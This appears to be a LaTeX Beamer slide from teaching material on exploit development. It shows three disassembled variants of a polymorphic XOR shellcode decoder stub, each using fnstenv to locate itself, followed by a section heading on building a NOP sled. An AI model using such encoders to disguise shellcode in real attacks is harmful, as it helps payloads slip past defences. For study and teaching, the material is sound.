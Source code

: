 \documentclass{beamer}
\begin{document}
\begin{frame}[fragile]
  \frametitle{Example output}

\begin{onlyenv}<1>
\begin{verbatim}
00000000  BB6E887A69        mov ebx,0x697a886e
00000005  DDC4              ffree st4
00000007  D97424F4          fnstenv [esp-0xc]
0000000B  58                pop eax
0000000C  29C9              sub ecx,ecx
0000000E  B101              mov cl,0x1
00000010  83E8FC            sub eax,byte -0x4
00000013  31580E            xor [eax+0xe],ebx
00000016  03580E            add ebx,[eax+0xe]
00000019  E2F5              loop 0x10
\end{verbatim}
\end{onlyenv}

\begin{onlyenv}<2>
\begin{verbatim}
00000000  DBC1              fcmovnb st1
00000002  31C9              xor ecx,ecx
00000004  B101              mov cl,0x1
00000006  D97424F4          fnstenv [esp-0xc]
0000000A  5B                pop ebx
0000000B  BAC8E2C8F8        mov edx,0xf8c8e2c8
00000010  83C304            add ebx,byte +0x4
00000013  315313            xor [ebx+0x13],edx
00000016  035313            add edx,[ebx+0x13]
00000019  E2F5              loop 0x10
\end{verbatim}
\end{onlyenv}

\begin{onlyenv}<3>
\begin{verbatim}
00000000  BB7B833BB9        mov ebx,0xb93b837b
00000005  DAC0              fcmovb st0
00000007  D97424F4          fnstenv [esp-0xc]
0000000B  2BC9              sub ecx,ecx
0000000D  5E                pop esi
0000000E  B101              mov cl,0x1
00000010  315E12            xor [esi+0x12],ebx
00000013  83C604            add esi,byte +0x4
00000016  03                db 0x03
00000017  25                db 0x25
00000018  8D                db 0x8D
00000019  D9                db 0xD9
0000001A  4C                dec esp
\end{verbatim}
\end{onlyenv}

\end{frame}

\section{Building a Nop Sled}
\end{document}
